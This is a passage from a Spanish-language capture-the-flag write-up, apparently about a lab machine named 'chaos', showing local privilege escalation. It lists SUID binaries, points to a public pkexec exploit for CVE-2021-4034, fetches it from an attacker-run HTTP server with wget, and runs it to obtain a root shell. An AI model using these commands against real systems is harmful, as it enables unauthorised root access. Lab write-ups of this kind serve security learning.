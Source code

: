 ```
ayush@chaos:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/gpasswd
/bin/ntfs-3g
/bin/su
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
```

Cuando `pkexec` es `SUID`, puede ocurrir una vulnerabilidad que nos permite convertirnos en `usuario root`. Para explotarla, voy a usar este `exploit` [https://github.com/Almorabea/pkexec-exploit.git](https://github.com/Almorabea/pkexec-exploit.git). Lo primero que debemos hacer es descargarnos este `exploit` en nuestro equipo y montarnos un `servidor HTTP` con `Python` en su ubicación

```
# python -m http.server 80
```

Nos `descargamos` el `exploit`

```
ayush@chaos:/tmp$  wget http://10.10.16.28/CVE-2021-4034.py
--2024-10-13 09:06:27--  http://10.10.16.28/CVE-2021-4034.py
Connecting to 10.10.16.28:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: ‘CVE-2021-4034.py’

CVE-2021-4034.py                                0%[                                                                                                 ]       0  --.-KB/s         CVE-2021-4034.py                              100%[================================================================================================>]   3.00K  --.-KB/s    in 0.03s   

2024-10-13 09:06:27 (97.3 KB/s) - ‘CVE-2021-4034.py’ saved [3068/3068]
```

`Ejecutamos` el `exploit`

```
ayush@chaos:/tmp$ python3 CVE-2021-4034.py 
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f91c23a8000 at 0x7f91c19555c0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
```
